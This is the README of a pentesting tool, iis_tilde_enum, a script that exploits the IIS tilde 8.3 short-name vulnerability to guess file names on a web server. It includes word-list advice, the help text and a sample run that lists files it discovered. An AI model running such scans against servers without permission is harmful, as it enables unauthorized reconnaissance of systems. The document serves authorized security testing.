 iis_tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln and tries to get you full file names.

You feed this script a URL and also a word list of potential file names. The script will look up the file
roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the
https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt
(or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find
directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized
by the vulnerability). You should still try to enumerate directories using a word list and
[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the
`dir /x` command. One of the columns will be the 8.3 name (if there is one).

Always enjoy feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-d DIRWORDLIST] [-f] [-o OUT_FILE] [-p PROXY]
                     [-u URL] [-v VERBOSE_LEVEL] [-w WAIT]
                     [--resume RESUME_STRING] [--limit-ext LIMIT_EXTENSION]

Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -d DIRWORDLIST        an optional wordlist for directory name content
  -f                    force testing of the server even if the headers do not
                        report it as an IIS system
  -o OUT_FILE           Filename to store output
  -p PROXY              Use a proxy host:port
  -u URL                URL to scan
  -v VERBOSE_LEVEL      verbose level of output (0~2)
  -w WAIT               time in seconds to wait between requests
  --resume RESUME_STRING
                        Resume from a given name (length &lt;= 6)
  --limit-ext LIMIT_EXTENSION
                        Enumerate for given extension only
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u "http://iis/" -w 0.1 -v 2 --resume=jss --limit-ext=htm
[-]  Verbose Level=2 ....brace yourself for additional information.
[-]  Testing with dummy file request http://iis/MH2GpGp9k44uw.htm
[-]    URLNotThere -> HTTP Code: 404, Response Length: 1379
[-]  Testing with user-submitted http://iis/
[-]    URLUser -> HTTP Code: 200, Response Length: 46
[-]  --limit-ext is set. Find names end with given extension only: htm
[-]  Resume from "jss"... characters before this will be ignored.
[-]  User-supplied delay detected. Waiting 0.1 seconds between HTTP requests.
[+]  HTTP Response Codes: {'user_length': 46, 'not_there_length': 1379, 'user_code': 200, 'not_there_code': 404}
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the IIS tilde enumeration vulnerability..
[+]  counterEnum: jssfhc~1 to ~2.
[+]  Found file:  jssfhc~1.htm
[+]  counterEnum: jsstra~1 to ~2.
[+]  Found file:  jsstra~1.htm
[-]  Finished doing the 8.3 enumeration for /.

---------- FINAL OUTPUT ------------------------------
http://iis/jssfhc~1.htm
http://iis/jsstra~1.htm
---------- OUTPUT COMPLETE ---------------------------
</pre>
